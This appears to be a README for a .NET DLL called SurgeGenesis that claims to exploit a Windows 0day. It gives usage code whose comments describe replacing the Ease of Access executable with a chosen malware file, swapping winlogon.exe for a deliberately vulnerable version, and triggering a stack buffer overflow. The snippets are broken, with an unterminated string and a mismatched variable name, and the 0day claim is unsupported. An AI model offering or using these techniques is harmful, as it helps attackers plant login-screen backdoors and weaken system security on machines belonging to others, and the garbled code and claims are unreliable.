# Surge Genesis

If you import SurgeGenesis.dll into your .NET application in Visual Studio in the References, you can exploit the 0day.

Just call
```cs 
using SurgeGenesis;
```
and
```cs
SurgeGenesis.Surger genesis = new SurgeGenesis.Surger();
```

Then you can use some commands like
```cs
// Replaces the Ease of Access file with a file
Genesis.SurgeStart("c:\users\johndoe\downloads\MalwareFile.exe);
// Replaces winlogon.exe with a bugged version that has security bugs
Genesis.SurgeBuffer();
// Starts a Stack Buffer Overflow (not reccomended as it is just a bufferoverflow to have if you don't know how to make a bufferoverflow payload)
Genesis.BufferOverflow();
```
